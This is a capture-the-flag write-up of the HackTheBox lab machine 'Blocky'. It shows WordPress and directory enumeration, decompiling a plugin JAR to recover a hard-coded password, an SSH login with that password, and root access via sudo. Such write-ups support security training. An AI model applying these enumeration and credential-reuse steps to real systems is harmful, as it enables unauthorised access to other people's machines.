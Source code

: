 ```yaml
---
title: HackTheBox - Blocky
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-09-20
tags: [tcp/80-http/cms/wordpress]
img_path: /_posts/Writeups/HackTheBox/Linux/Blocky/images/
image:
  path: /_posts/Writeups/HackTheBox/Linux/Blocky/images/Pasted%20image%2020220920195609.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
This machine begins w/ a web enumeration, discovering a directory `/plugins` and `wordpress` CMS running on it. After enumerating `wordpress`, user `notch` is discovered. The `/plugins` directory contains 2 `java` archives. After extracting it, a compiled java file is found, simply decompiling it reveals SSH password for user `notch`. 

For the privilege escalation part, user `notch` is able to run any command as `root`, running `su` privilege escalated us to `root`.

---

| Column       | Details                                                       |
| ------------ | ------------------------------------------------------------- |
| Box Name     | Blocky                                                        |
| IP           | 10.10.10.37                                                   |
| Points       | 20                                                            |
| Difficulty   | Easy                                                          |
| Creator      | [Arrexel](https://www.hackthebox.com/home/users/profile/2904) |
| Release Date | 21 Jul 2017                                                              |


# Recon

## TCP/80 (HTTP)
- FFUF
	```bash
	.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 3695ms]
	index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 70ms]
	javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
	phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
	plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 35ms]
	server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 37ms]
	wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 37ms]
	wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 36ms]
	wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 36ms]
	wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 37ms]
	xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 158ms]
	```
	- `plugins`
	- `phpmyadmin`



# Initial Foothold

## TCP/80 (HTTP) - Enumerate WP
1. Enumerate users 
	```
	┌──(root💀kali)-[~/htb/blocky]
	└─# wpscan --no-update --disable-tls-checks --url http://blocky.htb -e u -f cli-no-color 2>&1 | tee "tcp_80_http_wpscan_user_enum.txt"
	
	[i] User(s) Identified:
	
	[+] notch
	 | Found By: Author Posts - Author Pattern (Passive Detection)
	 | Confirmed By:
	 |  Wp Json Api (Aggressive Detection)
	 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)
	```
	- `notch`
2. Enumerate plugins
	```
	┌──(root💀kali)-[~/htb/blocky]
	└─# wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://blocky.htb -e ap -f cli-no-color 2>&1 | tee "tcp_80_http_wpscan_plugin_enum.txt"
	
	[i] Plugin(s) Identified:
	
	[+] akismet
	 | Location: http://blocky.htb/wp-content/plugins/akismet/
	 | Last Updated: 2021-10-01T18:28:00.000Z
	 | Readme: http://blocky.htb/wp-content/plugins/akismet/readme.txt
	 | [!] The version is out of date, the latest version is 4.2.1
	 |
	 | Found By: Known Locations (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/, status: 200
	 |
	 | Version: 3.3.2 (100% confidence)
	 | Found By: Readme - Stable Tag (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
	 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
	```
3. Does not look vulnerable, move on


## TCP/80 (HTTP) - What kind of files are in /plugins directory
1. Download all files residing in `plugins`
2. Determine the file type of downloaded files 
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot]
	└─# file BlockyCore.jar griefprevention-1.11.2-3.1.1.298.jar 
	BlockyCore.jar:                       Java archive data (JAR)
	
	griefprevention-1.11.2-3.1.1.298.jar: Zip archive data, at least v2.0 to extract, compression method=deflate
	```
3. Extract `BlockyCore.jar`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore]
	└─# jar -xf BlockyCore.jar 
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	```
4. View directory structure of the extract files
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore]
	└─# tree -a .
	.
	├── BlockyCore.jar
	├── com
	│   └── myfirstplugin
	│       └── BlockyCore.class
	└── META-INF
	    └── MANIFEST.MF
	
	3 directories, 3 files
	```
	- `BlockyCore.jar`
5. Determine the file type of `Blocky.jore`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# file BlockyCore.class 
	BlockyCore.class: compiled Java class data, version 52.0 (Java 1.8)
	```
	- A Java class file is created by a Java compiler from `.java` files


## TCP/80 (HTTP) - Decompile .class file, obtaining credentials
1. Decompile `BlockyCore.class` file
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# javap -c BlockyCore.class | tee decompiled_BlockyCore.class
	```
2. View `decompiled_BlockyCore.class`, credentials found in the comments
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# cat decompiled_BlockyCore.class | grep -P '//'
	       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
	       5: ldc           #14                 // String localhost
	       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
	      11: ldc           #18                 // String root
	      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
	      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
	      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
	       1: ldc           #33                 // String TODO get username
	       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
	       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
	```
	- `8YsqfCTnvxAUeduzjNSXe22`


## TCP/22 (SSH)
1. SSH w/ `notch:8YsqfCTnvxAUeduzjNSXe22`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# sshpass -p '8YsqfCTnvxAUeduzjNSXe22' ssh notch@blocky.htb
	Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	7 packages can be updated.
	7 updates are security updates.
	
	
	Last login: Tue Sep 20 06:14:32 2022 from 10.10.14.14
	notch@Blocky:~$ id;whoami
	uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
	notch
	notch@Blocky:~$ 
	```


# Privilege Escalation

## Root - Sudo
1. Check `notch` sudo access
	```
	notch@Blocky:~$ sudo -l
	[sudo] password for notch: 
	Matching Defaults entries for notch on Blocky:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User notch may run the following commands on Blocky:
	    (ALL : ALL) ALL
	```
	- Able to run any command as `root`
2. Obtain `root` w/ `su`
	```
	notch@Blocky:~$ sudo su
	root@Blocky:/home/notch# id;whoami
	uid=0(root) gid=0(root) groups=0(root)
	root
	root@Blocky:/home/notch# 
	```


